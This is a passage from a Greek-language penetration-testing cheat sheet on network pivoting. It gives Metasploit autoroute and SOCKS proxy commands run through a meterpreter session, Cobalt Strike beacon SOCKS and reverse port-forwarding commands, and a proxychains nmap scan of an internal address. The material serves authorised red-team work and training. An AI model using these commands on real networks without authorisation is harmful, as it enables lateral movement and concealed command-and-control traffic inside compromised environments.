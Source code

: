 ```bash
background #meterpreter session
use post/multi/manage/autoroute
set SESSION <session_n>
set SUBNET <New_net_ip> #Ex: set SUBNET 10.1.13.0
set NETMASK <Netmask>
run
use auxiliary/server/socks_proxy
set VERSION 4a
run #Proxy port 1080 by default
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf #Proxychains
```
## Cobalt Strike

### SOCKS proxy

Ανοίξτε μια θύρα στον server της ομάδας που ακούει σε όλα τα interfaces που μπορούν να χρησιμοποιηθούν για να **δρομολογήσουν την κίνηση μέσω του beacon**.
```bash
beacon> socks 1080
[+] started SOCKS4a server on: 1080

# Set port 1080 as proxy server in proxychains.conf
proxychains nmap -n -Pn -sT -p445,3389,5985 10.10.17.25
```
### rPort2Port

{% hint style="warning" %}
Σε αυτή την περίπτωση, το **θύρα ανοίγει στον host beacon**, όχι στον Team Server και η κίνηση αποστέλλεται στον Team Server και από εκεί στον καθορισμένο host:port
{% endhint %}
```bash
rportfwd [bind port] [forward host] [forward port]
rportfwd stop [bind port]
```
To note:

- Η αντίστροφη προώθηση θύρας του Beacon έχει σχεδιαστεί για να **συνδέει την κίνηση στον Server Ομάδας, όχι για αναμετάδοση μεταξύ μεμονωμένων μηχανών**.
- Η κίνηση είναι **συνδεδεμένη μέσα στην κίνηση C2 του Beacon**, συμπεριλαμβανομένων των P2P συνδέσεων.
- **Δικαιώματα διαχειριστή δεν απαιτούνται** για τη δημιουργία αντίστροφων προωθήσεων θύρας σε υψηλές θύρες.

### rPort2Port local

{% hint style="warning" %}
Σε αυτή την περίπτωση, η **θύρα ανοίγεται στον οικοδεσπότη beacon**, όχι στον Server Ομάδας και η **κίνηση αποστέλλεται στον πελάτη Cobalt Strike** (όχι στον Server Ομάδας) και από εκεί στον καθορισμένο host:port
{% endhint %}
```
rportfwd_local [bind port] [forward host] [forward port]
rportfwd_local stop [bind port]
```
## reGeorg
